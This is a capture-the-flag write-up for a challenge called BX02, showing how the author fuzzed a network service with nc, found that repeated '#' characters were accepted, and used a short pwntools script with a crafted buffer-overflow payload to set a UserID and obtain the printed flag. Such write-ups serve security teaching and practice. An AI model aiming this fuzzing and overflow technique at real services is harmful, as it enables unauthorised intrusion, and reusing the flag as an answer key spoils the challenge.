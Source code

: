 # BX02
> 1,000pts

## Briefing
> Access the network service at url: `cfta-bx02.allyourbases.co` port: `8013` and find a way to get the flag.

## Solution

Connecting to the service gives us this output:

```console
➜ ~ $ nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
d
DEBUG: Input length too large.
➜ ~ $ echo "" | nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
DEBUG: Input length too large.
➜ ~ $
```

We notice that whatever we give the service, it responds with `DEBUG: Input length too large.` So we try bruteforcing every single character to figure out which input it does *not* reply "too large" with. (This requires some guessing.) After a bruteforce with a pwntools script, we find that the server will not say "too large" with a `#` character. We find that we can spam `#` and the server will not complain. If we spam enough, we get the message `ERROR: Expected UserID of 1`. We now take another guess, and hope that we can use a buffer overflow to make `UserID` equal to `1`. We write a pwntools script:

```Python
from pwn import *

conn = remote("cfta-bx02.allyourbases.co", 8013)

conn.sendline(("#" + "2"*147 + "#")*20)
print(conn.recvall())
```

## Flag
Flag: `ThIsOneIsAbITFuZZy-6y`
